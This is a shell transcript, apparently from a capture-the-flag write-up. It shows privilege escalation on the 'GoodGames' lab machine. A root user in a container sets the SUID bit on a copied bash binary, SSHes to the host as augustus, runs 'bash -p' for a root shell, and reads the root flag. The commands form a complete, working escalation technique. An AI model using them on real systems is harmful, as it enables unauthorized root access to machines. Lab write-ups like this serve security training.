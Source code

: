 ```bash
root@3a453ab39d3d:/home/augustus# ls -l
total 1148
-rwxr-xr-x 1 1000 1000 1168776 Mar 11 21:08 bash
-rw-r--r-- 1 1000 1000       0 Mar 11 20:58 test
-rw-r----- 1 1000 1000      33 Mar 11 19:34 user.txt

root@3a453ab39d3d:/home/augustus# chown root:root bash 

root@3a453ab39d3d:/home/augustus# chmod 4777 bash 

root@3a453ab39d3d:/home/augustus# ls -l
total 1148
-rwsrwxrwx 1 root root 1168776 Mar 11 21:08 bash
-rw-r--r-- 1 1000 1000       0 Mar 11 20:58 test
-rw-r----- 1 1000 1000      33 Mar 11 19:34 user.txt

root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Mar 11 21:07:51 2022 from 172.19.0.2

augustus@GoodGames:~$ ls -l
total 1148
-rwsrwxrwx 1 root     root     1168776 Mar 11 21:08 bash
-rw-r--r-- 1 augustus augustus       0 Mar 11 20:58 test
-rw-r----- 1 augustus augustus      33 Mar 11 19:34 user.txt

augustus@GoodGames:~$ ./bash -p

bash-5.0# whoami
root

bash-5.0# cat /root/root.txt 
REDACTED
```